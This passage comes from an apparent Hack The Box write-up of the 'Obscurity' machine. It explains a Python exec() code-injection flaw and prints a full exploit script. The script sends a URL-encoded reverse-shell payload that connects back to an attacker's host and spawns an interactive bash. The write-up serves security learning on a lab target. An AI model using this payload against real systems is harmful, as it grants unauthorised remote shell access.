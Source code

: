 ![Source of user data](../../assets/img/writeups/htb/obscurity/source.png)
{:refdef}

We noticed 2 things as we went through the source code:
1. The parameter we inject is `request.doc` (the URI after 8080/?)
2. The only sanitation done on our payload is a URL Decode with `urllib.parse.unquote()`

#### Reverse Shell Via Exec()

To the exec() statement, our payload looks like this:

`"output = 'Document: <USER INPUT>'"`

So we need to escape from the initial string assignment, inject our payload, then clean up the quotes.

**Note: The web server will not respond to a request if it contains a single quote ', so we used urllib.parse.quote to URL Encode our payload**

Here is the python script I wrote to execute the payload, since I did not feel like using Burp or the browser:

~~~python
import sys
import urllib.parse
from requests import get

if len(sys.argv) < 3:
    print("Error!\nUsage: python exploit.py <host> <port>")
    exit(0)

host = sys.argv[1]
port = int(sys.argv[2])

payload = """';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{}',{}));
				os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);'""".format(host,port) 
safePayload = urllib.parse.quote(payload)
response = get("http://10.10.10.168:8080/{}".format(safePayload))
if (response.status_code == 404):
    print("Successful Injection")
else:
    print("Injection NOT successful")
~~~
